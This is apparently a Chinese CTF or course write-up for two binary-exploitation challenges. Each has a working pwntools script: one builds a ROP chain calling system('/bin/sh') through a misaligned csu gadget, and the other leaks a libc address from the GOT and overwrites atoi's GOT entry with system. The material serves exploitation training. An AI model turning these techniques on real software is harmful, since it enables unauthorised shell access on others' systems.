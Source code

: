 # Week 12

## Believe in the ROP
debug会给栈地址，rop就行了。  
课上没讲过的是64位程序的`libc_csu_init`有一个`pop r15; ret`的gadget（其实是一个巨大的万能gadget）  
而`pop r15`对应字节`41 5F`，往后一个byte就成了`pop rdi`，就可以给system传参了。  

另外一点是这里栈不是16字节对齐的，所以system_addr用了程序中已有的`call system@plt`片段补8字节进去实现栈平衡。   
如果溢出长度再长8字节的话，也可以通过插入一个`ret`来平衡。

```python
from pwn import *
elf = ELF('e:\\desk\\chall1')
p = remote("xxxx", 28160)
context.log_level = 'debug'
pop_rdi = 0x401453
return_addr = pop_rdi + 1
system_addr = 0x4011e5


addr = p.recvuntil(b'  <- saved rbp')[-(12+14):-14].decode()
binsh_addr = int(addr, 16) - 0x20

p.sendline(b"/bin/sh\x00".ljust(0x10, b"\x00") + b"b" * 8+ p64(pop_rdi) + p64(binsh_addr) + p64(system_addr))

p.interactive()
```

## List

从got表入手，拿到函数动态地址之后根据低12bit查找glibc版本，为什么能这样做在lab报告中有详细的描述。

有了libc版本（但是没附件）不太好打OG，正巧这里有个atoi，把它的got改成libc里system的地址，这样atoi的参数就变成了system的参数。

```python
from pwn import *
from LibcSearcher import *

elf = ELF('chall2')
p = elf.process() # remote("xxxx", 28160)
context.log_level = 'debug'
pop_rdi = 0x401703
atoi_got = elf.got['atoi']

p.sendlineafter(b">", b"1")
p.sendlineafter(b":", b"x")
p.sendlineafter(b">", b"1")
p.sendlineafter(b":", b"x")

p.sendlineafter(b">", b"2")
p.sendlineafter(b":", b"0")
p.sendlineafter(b"New content:", b"\x00"*40 + p64(atoi_got - 8) + b'\x00' * 8)

p.sendlineafter(b">", b"2")
p.sendlineafter(b":", b"2")

addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

obj = LibcSearcher('atoi', addr)
print(hex(obj.dump('atoi')))
libc_base = addr - obj.dump('atoi')
print(hex(obj.dump("system")))
system_addr = obj.dump("system") + libc_base
print(hex(system_addr))

p.sendlineafter(b"New content:", p64(system_addr))
p.sendlineafter(b">", b"/bin/sh")

p.interactive()
```